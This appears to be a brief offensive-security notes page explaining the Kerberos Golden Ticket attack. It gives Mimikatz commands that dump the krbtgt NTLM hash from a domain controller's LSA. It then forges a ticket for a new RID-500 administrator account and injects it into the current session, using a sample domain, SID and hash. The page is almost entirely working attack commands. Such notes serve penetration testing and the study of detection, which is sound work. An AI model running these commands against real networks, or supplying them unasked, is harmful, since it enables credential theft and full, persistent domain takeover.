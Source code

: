 ### Golden Ticket

* in PowerShell
* Mimikatz

Extracting the krbtgt account's password `NTLM` hash:

```bash
mimikatz # lsadump::lsa /inject /name:krbtgt
```

<figure><img src="../../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

Creating a forged golden ticket that automatically gets injected in current logon session's memory:

{% code overflow="wrap" %}
```
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```
{% endcode %}
